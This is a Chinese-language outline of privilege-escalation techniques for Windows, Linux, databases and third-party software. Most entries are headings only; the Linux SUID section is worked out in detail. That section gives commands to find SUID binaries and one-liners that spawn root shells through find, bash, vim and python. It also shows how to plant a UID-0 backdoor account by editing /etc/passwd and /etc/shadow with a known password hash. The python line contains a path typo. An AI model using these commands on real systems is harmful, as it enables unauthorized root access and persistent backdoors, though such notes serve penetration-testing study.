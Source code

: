 - windows

  - 溢出提权

  - 错误系统配置提权

  - MSI文件提权

  - 计划任务提权

  - 启动项提权

  - 组策略提权

  - 服务提权

  - 进程注入提权

- Linux

  - 内核漏洞提权

  - suid提权

    - 介绍：它是一种特殊权限，设置了该权限的程序文件，在用户执行该程序时，用户的权限是该程序文件属主的权限

    - 注意点

      - 1.只有可执行的二进制文件才能设定suid权限

      - 2.命令执行者需要对该程序文件拥有执行权限

      - 3.是一个过程式，只在程序执行过程中有效

    - 设置suid

      - chmod u+s filename 设置SUID位

      - chmod u-s filename 去掉SUID设置

    - 常见可用提权的命令

      nmap,vim,find,bash,more,less,nano,cp,awk,mv

      - 更多的命令查看:https://gtfobins.github.io/gtfobins/awk/#suid

    - 查找suid文件

      - find / -user root -perm -4000 -print 2>/dev/null
        find查找文件;/从根目录开始查找;-user root是文件的所属者是root;-perm -4000是匹配权限，普通文件，权限一般三位，777最高，-perm -0777搜索最高权限文件，-perm +0777搜索包含rwx任意一个的文件；特殊文件7000最高

      - find / -perm -u=s -type f 2>/dev/null
        -u=s查找有s权限的文件，-type b块设备，d目录，c字符设备，p管道，l符号链接，f普通文件

      - find / -user root -perm -4000 -exec ls {} \; 2>/dev/null
        -exec ls -ddb{}执行ls -ddb命令；{}代表前面的搜索结果，\;是固定语法格式，与-exec或者-ok参数成对使用

    - 利用find提权

      - touch anyfile#必须有这个文件

      - find anyfile -exec whoami \;

      - find . -exec /bin/sh -p \; -quit

    - 利用bash提权
      - bash -p

    - VIM提权

      - 方式一 利用vim添加账号

        - vim /etc/passwd

        - 添加bob:x:0:0::/home/bob:/bin/bash

        - vim /etc/shadow

        - bob:$1$salt$638tR8bROOvPnPk1DQ9Vf/:19103:0:99999:7:::密码是123456

      - 方式二 利用vim打开交互式shell
        - vim -c ':py import os; os.execl("/bin/sh","sh","-pc","reset;exec sh -p")'

    - python提权
      - python -c 'import os;os.execl("bin/sh","sh","-p")'

  - 计划任务提权

  - 环境变量劫持提权

  - 启动项提权

  - SUDO提权

  - NFS提权

- 数据库

  - udf提权-数据库提权

- 第三方软件

  - Serv-u提权

  - 远程控制软件

  - FlashFXP文件

  - Gene6 FTP提权

  - PCanyWhere提权

  - VNC提权

  - Radmin提权

  - 进程注入提权